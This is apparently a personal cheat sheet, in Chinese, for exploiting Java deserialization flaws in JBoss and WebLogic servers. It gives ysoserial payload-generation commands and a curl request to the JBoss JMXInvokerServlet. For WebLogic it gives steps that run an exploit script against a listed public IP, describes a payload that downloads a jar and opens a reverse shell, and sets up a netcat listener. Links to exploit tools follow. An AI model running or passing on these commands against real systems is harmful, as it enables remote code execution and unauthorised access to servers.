 ## JavaDeserialization

###jboss：
#####一
```
▶ java -jar ysoserial-0.0.2-all.jar
Y SO SERIAL?  
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'  
    Available payload types:  
        CommonsCollections1 #jboss用這個我測試過一次可行  
        CommonsCollections2 #剩下的沒測試過  
        Groovy1  
        Spring1  

▶ java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'command' >~/payload
▶ curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '~/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```
[ysoserial-0.0.2-all.jar](https://github.com/frohoff/ysoserial/releases)  
####二  
https://github.com/njfox/Java-Deserialization-Exploit  
暫未測試。


###weblogic：  
```
▶ javac -classpath commons-collections-3.2.jar Main.java
▶ java Main.class
▶ python weblogic.py 116.208.2.162 7001 /tmp/payload
▶ ssh kali
root@Kali:~# nc -vv -l -p 888
```
Main.java的作用是生成一個從url下載jar包的payload，jar包執行反彈shell。  

[commons-collections-3.2.jar](http://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.2.zip "Main.jar依賴包")  
[Main.java](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "TransformedMap的实现方式")  
[weblogic.py](https://github.com/schinkelg/JavaUnserializeExploits/blob/master/weblogic.py "自動添加包頭的修正腳本")

--

通用漏洞可以從這裡總結：  
http://www.secpulse.com/archives/40420.html  
http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/  
https://github.com/foxglovesec/JavaUnserializeExploits
https://github.com/njfox/Java-Deserialization-Exploit  

